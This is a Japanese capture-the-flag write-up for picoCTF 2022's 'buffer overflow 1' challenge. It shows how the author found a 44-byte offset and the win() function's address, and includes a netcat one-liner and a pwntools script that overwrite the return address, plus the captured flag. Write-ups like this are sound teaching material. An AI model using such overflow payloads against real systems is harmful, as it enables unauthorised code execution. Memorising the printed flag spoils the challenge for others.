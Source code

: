 # buffer overflow 1:Binary Exploitation

Control the return address Now we're cooking! You can overflow the buffer and return to the flag function in the [program](https://github.com/colza12/ctf_writeup/blob/main/picoCTF%202022/buffer%20overflow%201/vuln). You can view source [here](https://github.com/colza12/ctf_writeup/blob/main/picoCTF%202022/buffer%20overflow%201/vuln.c). And connect with it using `nc saturn.picoctf.net 53578`

# Solution

とりあえず、`nc saturn.picoctf.net 53578`を実行してみる。
```
$ nc saturn.picoctf.net 53578
Please enter your string: 
abcdefghijklmnopqrstuvwxyzabcdefghijklmnopqrstuvwxyz
Okay, time to return... Fingers Crossed... Jumping to 0x76757473
```
入力した文字の一部が出てきた。おそらく、`44文字+4文字(リトルエンディアン)`で何かするとフラグが出てきそうだ。
vlun.cを見てみると、
```c
void win() {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }
```
flag.txtを読み込んでいるwin関数を発見。この関数のアドレス値を+4文字の部分に入れる。アドレス値は`0x080491f6`。アドレス値は、readelfで探すか逆アセンブルして探す。
```
63: 080491f6   139 FUNC    GLOBAL DEFAULT   13 win)
```
```  
                     win                                             XREF[3]:     Entry Point (*) , 0804a0e0 , 
                                                                                          0804a17c (*)   
080491f6 f3  0f  1e  fb    ENDBR32
```
`(python3 -c 'import sys; sys.stdout.write("a"*44)'; echo -e '\xf6\x91\x04\x08') | nc saturn.picoctf.net 53578`を実行する。

```
$ (python3 -c 'import sys; sys.stdout.write("a"*44)'; echo -e '\xf6\x91\x04\x08') | nc saturn.picoctf.net 53578
Please enter your string: 
Okay, time to return... Fingers Crossed... Jumping to 0x80491f6
picoCTF{addr3ss3s_ar3_3asy_5c6baa9e}
```
フラグが得られた。

`picoCTF{addr3ss3s_ar3_3asy_5c6baa9e}`

以下、実行コード。
```python
from pwn import *

p = remote("saturn.picoctf.net", 53578)

payload = b"a"*44
payload += p32(0x080491f6)

p.sendline(payload)

p.interactive()
```

